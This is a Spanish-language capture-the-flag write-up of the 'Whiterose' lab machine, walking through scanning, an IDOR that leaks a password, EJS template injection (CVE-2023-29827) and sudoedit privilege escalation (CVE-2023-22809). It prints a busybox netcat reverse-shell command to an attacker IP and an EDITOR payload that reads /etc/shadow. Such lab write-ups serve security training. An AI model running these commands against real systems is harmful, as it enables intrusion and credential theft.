<div align="center">
    
</div>

<div align="center">

# Whiterose <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [**IDOR**, **CVE-2023-29827**, **CVE-2023-22809**, **sudoedit**] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Vulnerando sitio web](#vulnerando-sitio-web)
- [Shell como web](#shell-como-web)
- [Shell como root](#shell-como-root)

### Escaneos

Iniciamos haciendo los escaneos correspondientes para descubrir los puertos abiertos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.114.161.127
```

```log
# Nmap 7.95 scan initiated Wed Oct 28 22:48:42 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.114.161.127
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.114.161.127 ()	Status: Up
Host: 10.114.161.127 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Wed Oct 28 22:49:00 2026 -- 1 IP address (1 host up) scanned in 18.41 seconds
```

<br>

```shell
nmap -p22,80 -sV -sC 10.114.161.127 -oN openPorts.log
```

```log
# Nmap 7.95 scan initiated Wed Oct 28 22:49:18 2026 as: nmap -p22,80 -sV -sC -oN openPorts.log 10.114.161.127
Nmap scan report for whiterose.thm (10.114.161.127)
Host is up (0.091s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 28 22:49:28 2026 -- 1 IP address (1 host up) scanned in 9.37 seconds
```

<br>

### Vulnerando sitio web

Al entrar por el navegador al puerto 80, nos redirige directamente a otra DNS la cual deberíamos agregar en nuestro archivo `/etc/hosts`

<div align="center">
    
    <br>
    <em>Solicitud rechazada por no reconocer la DNS</em>
    <br><br>
    
    <br>
    <em>DNS de página de "customers"</em>
</div>

<br><br>

No hay cookies almacenadas ni nada por el momento, haremos un escaneo con `ffuf` y veamos si hay rutas ocultas.
Tras el escaneo nada apareció, así que pensé que: ya que la DNS era diferente al hacer la primera solicitud, por qué no sería diferente de nuevo para buscar otra cosa. Hacemos un escaneo con `gobuster`

```shell
❯ gobuster vhost -u 'http://cyprusbank.thm' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -r -t 200 --no-error
...
Found: admin.cyprusbank.thm Status: 200 [Size: 2195]
```

<br>

Perfecto, tenemos una ruta `admin.cyprusbank.thm`:

<div align="center">
    
    <br>
    <em>Formulario de acceso (login)</em>
</div>

<br><br>

Encontramos ese formulario e ingresamos con las credenciales que nos dieron en la página web del reto:

`Olivia Cortez:olivi8`

<div align="center">
    
    <br>
    <em>Panel de administración</em>
</div>

<br><br>

Navegando un poco por la página podemos notar que el apartado de "Settings" está deshabilitado ya que no tenemos los permisos necesarios, pero en mensajes hay una posibilidad de **IDOR** (*Insecure Direct Object Reference*) con el parámetro `c`.

<div align="center">
    
    <br>
    <em>Insecure Direct Object Reference (parámetro 'c')</em>
</div>

<br><br>

Encontramos las credenciales de "**Gayle Bev**".

`Gayle Bev: 'p~]P@5!6;rs558:q'`

<br>

A partir de aquí, si podremos entrar en el apartado de "*Settings*" y buscar el número de "**Tyrell Wellick**"

<div align="center">
    
    <br>
    <em>Número de Tyrell</em>
</div>

<br><br>

### Shell como web

Tras buscar un poco qué se podía hacer aquí, intenté cambiar la contraseña de "**Gayle**" pero tampoco hacía mucha diferencia, así que intenté simplemente mandar cualquier cosa por el formulario en el apartado de "*Settings*", lo cual me parece muy extraño porque sea cualquier cosa que ingresemos en el formulario siempre funcionará. Así que decidí interceptar las solicitudes con `BurpSuite`. Como estamos ante un servidor hecho con `ExpressJS`, simplemente hice la solicitud y me retornó un `ReferenceError` y un trozo de plantilla de `EJS`, decidí buscar un poco de información al respecto y encontré el **CVE-2023-29827**, hice una "PoC" con `ping` y funcionó.

> [!TIP]
> 
> https://packetinside.github.io/cves/cve-2023-29827/
> 
> https://eslam.io/cves/ejs-template-injection/
> 

<br>

<div align="center">
    
    <br>
    <em>El formulario recibe cualquier usuario y contraseña</em>
</div>

<br><br>

<div align="center">
        
        <br>
        <em>Haciendo la Prueba de Concepto enviando un ping</em>
        <br><br>
        
        <br>
        <em>Escuchando la red con tcpdump y recibiendo el ping</em>
</div>

<br><br>

Ya con esto podemos hacer una "Shell Reverse" en mi caso usaré la de "busybox":

```shell
busybox nc 192.168.137.54 4444 -e /bin/bash
```

<div align="center">
        
        <br>
        <em>Enviando la Shell Reverse con busybox</em>
        <br><br>
        
        <br>
        <em>Recibiendo la conexión</em>
</div>

<br><br>

Encontramos el primer flag "**user.txt**"

<div align="center">
    
    <br>
    <em>user.txt</em>
</div>

<br><br>

### Shell como root

Buscamos en el archivo `/etc/passwd` por otros usuarios pero este usuario **web** con el que hemos hecho la shell reverse es el único en conjunto a **root**, además, vemos los privilegios del usuario.

```
web@cyprusbank:~$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

<br>

Buscando un poco al respecto sobre vulnerabilidades al binario `sudoedit` encontramos que existe el **CVE-2023-22809** que ataca a `sudo` y `sudoedit` y podemos basarnos en la siguiente fuente:

> [!TIP]
> 
> https://packetstorm.news/files/id/174234
> 

<br>

Entonces el exploit consiste en establecer una variable de entorno `EDITOR` con un payload malicioso para ejecutarlo antes de que llegue al destino, antes de lanzar el ataque haremos una POC para comprobar que funciona al archivo `/etc/shadow`:

```shell
web@cyprusbank:~$ which vim
/usr/bin/vim
web@cyprusbank:~$ export EDITOR='vim -- /etc/shadow'
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm 
sudo: sudoedit doesn't need to be run via sudo
sudo: --: editing files in a writable directory is not permitted
2 files to edit
sudo: /etc/shadow unchanged
sudo: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
```

<div align="center">
    
    <br>
    <em>Archivo /etc/shadow</em>
</div>

<br><br>

Ahora que podemos ver que la prueba de concepto funcionó, apuntamos directamente a `/root/root.txt` y conseguimos el flag de `root`

<div align="center">
    
    <br>
    <em>root.txt</em>
</div>

<br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>